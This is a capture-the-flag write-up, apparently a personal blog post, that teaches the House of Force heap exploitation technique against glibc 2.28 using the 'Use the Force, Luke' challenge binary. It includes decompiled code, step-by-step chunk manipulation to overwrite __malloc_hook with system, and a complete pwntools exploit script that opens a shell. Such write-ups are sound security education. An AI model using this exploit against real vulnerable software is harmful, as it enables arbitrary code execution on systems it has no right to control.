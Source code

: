 ```yaml
---
title: "Exploring Heap Exploitation: The House of Force Technique"
layout: post
author: Jorge Moreno
category: Medium
---
```



> The House of Force attack is a heap exploitation technique that relays in abusing a heap overflow bug into corrupting the top chunk size, that way we can allocate enough memory to trigger an arbitrary write vulnerability.
> 

We are going to use the vulnerable binary from the [Use the Force, Luke](https://ctftime.org/task/19958) challenge. I downloaded the files from [this writeup](https://diegoaltf4.com/heap-exploitation-0x02/) created by DiegoAltF4.

For versions GLIBC versions prior to 2.29, top chunk size fields are not subject to integrity checks, so if we have a heap overflow bug we can overflow the user data of a chunk into the size field, modifying it with an arbitrary value.

|  | size of the chunk |
| --- | --- |
| USER DATA | USER DATA |
| USER DATA | TOP CHUNK SIZE |

In this example we allocate a chunk for the minimum size 0x20, and fill with A’s the user data and then send `\xff * 8` to change the top chunk size.

|  | 0x0000000000000021 |
| --- | --- |
| 0x4141414141414141 | 0x4141414141414141 |
| 0x4141414141414141 | 0xffffffffffffffff |

This way we can, for example, set the top chunk size to 0xffffffffffffffff, so next time we `malloc` we can allocate a large amount of bytes. Then we can `malloc` again, and write data to any address in memory. To get code execution we can use `__malloc_hook`. The hook is a component that some functions have to modify the behaviour of it in case we need it to do something different. If `__malloc_hook` points to NULL, it will act like a default `malloc`, but if inside it there is any address it will jump into it, executing whatever there is inside. 

## Challenge Solution

---

We are given a binary **force** with a directory **.glibc/** with the libc binary that the executable uses.

First, we check the file with `checksec` command.

![Untitled](images/house-of-force/Untitled.png)

As we can see it doesn’t have PIE enabled but has stack protector and the No eXecute bit enabled.

The libc version that it uses is 2.28, it is < 2.29 so it doesn’t have any security checks in the top chunk size. Now let's decompile the binary and see the code.

```c
undefined8 main(void)

{
  long buf;
  long in_FS_OFFSET;
  int option;
  int i;
  size_t bytes_to_allocate;
  void *heap_leak;
  void *buffer;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("\"This is our chance to destroy the Death Star, Luke\"");
  printf("You feel a system at %p\n",system);
  heap_leak = malloc(0x88);
  printf("You feel something else at %p\n",(long)heap_leak + -0x10);
  free(heap_leak);
  for (i = 0; i < 4; i = i + 1) {
    puts("(1) Reach out with the force");
    puts("(2) Surrender");
    __isoc99_scanf(&DAT_00400b62,&option);
    if (option == 2) break;
    printf("How many midi-chlorians?: ");
    __isoc99_scanf("%llu",&bytes_to_allocate);
    printf("What do you feel?: ");
    local_18 = malloc(bytes_to_allocate);
    buf_size = malloc_usable_size(local_18);
    read(0,buffer,buf_size + 8);
  }
  if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

The program first prints to us 2 addresses, the `system` function and the top of the heap. Then asks us to choose an option. 

1. Uses `malloc` to allocate `local_18` bytes in the heap and then reads from stdin the usable size of the malloc + 8 (heap overflow). Up to 4 times.
2. Exit the program

To leverage the attack we will do the next steps:

1. Allocate a first chunk to trigger the overflow to corrupt the top chunk size
2. Calculate the distance between the top chunk (`heap_leak + 0x20`) and the address we want to write - 0x20 (we substract 32 bytes because of the first 0x20 bytes before user data)
3. `malloc` a second time to store the string ``/bin/sh\x00`` to use it later as a parameter to the `system` function and to move the top chunk to the address `__malloc_hook - 0x20`.
4. `malloc` a third time to write the system address leak that we had into `__malloc_hook`.
5. And `malloc` the last time passing as a parameter the address where we stored the ``/bin/sh`` string to get our shell. 

---

We define the following Python helper method to `malloc`.

```python
def malloc(size, data):
    io.sendlineafter(b'Surrender', b'1')
    io.sendlineafter(b'?:', str(size).encode())
    io.sendlineafter(b'?:', data)
```

Then we send 1 byte so it creates the minimum size chunk (0x20) and send the data to trigger the overflow bug and visualize it with `vis` in gdb-pwndbg.

```python
[...]
malloc(1, b'A' * 0x18 + p64(0xffffffffffffffff))
io.interactive()
```

![Untitled](images/house-of-force/Untitled%201.png)

After that we calculate the distance between `__malloc_hook` and `heap + 0x20` to allocate enough memory and store the ``/bin/sh`` string.

```python
[...]
diff = (libc.sym.__malloc_hook - 0x20) - (heap_leak + 0x20)
malloc(diff, b'/bin/sh\0')
io.interactive()
```

Let's visualize it now with pwndbg. Because we allocated a lot of bytes we will now dump memory with `dq &mp_.sbrk_base`. Because `vis` will be bugged. The bytes `0x0068732f6e69622f` are the string `/bin/sh`

![Untitled](images/house-of-force/Untitled%202.png)

![Untitled](images/house-of-force/Untitled%203.png)

We can see now that the top chunk is right above `__malloc_hook` so next time we create a chunk we will overwrite its content.

```python
[...]
malloc(1, p64(system_leak))
# The size "1" requests a minimum size chunk -> 0x20
```

Now we have written the address of `system` inside the `__malloc_hook` so next time we call the function it will call `system` with the parameter we pass to it.

![Untitled](images/house-of-force/Untitled%204.png)

We just add now the following code to the script `malloc(heap_leak + 0x30, "")`and it will take the string `/bin/sh` as a parameter to the `system()` function, thus giving us a shell.

![Untitled](images/house-of-force/Untitled%205.png)

## Full Script

---

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './force', checksec = False)
libc = ELF('./.glibc/glibc_2.28_no-tcache/libc.so.6', checksec = False)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

def malloc(size, data):
    io.sendlineafter(b'Surrender', b'1')
    io.sendlineafter(b'?:', str(size).encode())
    io.sendlineafter(b'?:', data)

io = start()

io.recvuntil(b'system at')
system_leak = int(io.recvline(), 16)
libc.address = system_leak - libc.sym.system

io.recvuntil(b'else at')
heap_leak = int(io.recvline(), 16)

malloc(1, b'A' * 0x18 + p64(0xffffffffffffffff))

diff = (libc.sym.__malloc_hook - 0x20) - (heap_leak + 0x20)
info(f"0x{diff:02x} bytes to __malloc_hook")

malloc(diff, b'/bin/sh\0')
malloc(1, p64(system_leak))
malloc(heap_leak + 0x30, "")

io.interactive()
```

